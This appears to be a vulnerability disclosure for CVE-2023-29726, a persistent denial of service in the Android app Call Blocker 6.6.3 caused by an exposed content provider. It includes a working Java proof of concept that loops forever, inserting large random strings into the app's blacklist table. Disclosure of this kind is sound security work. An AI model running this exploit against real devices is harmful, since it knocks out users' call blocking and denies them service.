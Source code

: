 ## Denial of Service exists in Call Blocker（CVE-2023-29726）

Vendor：Fiorenza Francesco(https://www.call-blocker.info/)

Affected product：Call Blocker(com.cuiet.blockCalls)

Version：6.6.3

Download link： https://play.google.com/store/apps/details?id=com.cuiet.blockCalls

Description of the vulnerability for use in the CVE：The Call Blocker application 6.6.3 for Android incorrectly opens a key component that an attacker can use to inject large amounts of dirty data into the application's database. When the application starts, it loads the data from the database into memory. Once the attacker injects too much data, the application triggers an OOM error and crashes, resulting in a persistent denial of service.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    while (true) {
        String randomString =getRandomString(5210);
        Uri uri = Uri.parse("content://com.cuiet.blockCalls.ContProvBlockCalls/tbBlackList");
        ContentValues contentValues = new ContentValues();
        contentValues.put("photo_uri",randomString);
        contentValues.put("numeroContatto",randomString);
        contentResolver.insert(uri,contentValues);
    }
}
```



